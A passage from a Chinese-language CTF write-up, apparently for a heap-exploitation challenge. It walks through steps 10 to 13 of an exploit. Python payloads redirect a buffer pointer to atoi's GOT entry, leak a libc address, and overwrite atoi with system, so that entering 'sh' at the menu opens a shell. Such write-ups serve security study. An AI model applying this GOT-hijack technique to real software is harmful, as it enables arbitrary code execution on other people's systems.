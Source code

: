 10. renew(small) 
11. wipe(big)

重新 renew(small) 把 big_buf 指到 atoi 的 GOT entry 上，之後利用 wipe(big) 來 leak libc function address。

payload :

~~~python
payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0) # address of big_buf
payload += p32(1)*3
~~~

12. renew(small)
13. renew(big)

這裡在 renew 一次 small 設好 inuse bit

payload:

~~~python
payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0)
payload += p32(1)*3
~~~

接著 renew(big) 把 atoi GOT hijack 成 system

這樣在選單的地方不用輸入 1 or 2 or 3 直接輸入 `sh\x00`

就可以造成 atoi('sh') -> system('sh') 拿到 shell。

[secret]: https://github.com/lattera/glibc/blob/master/malloc/malloc.c#L3397
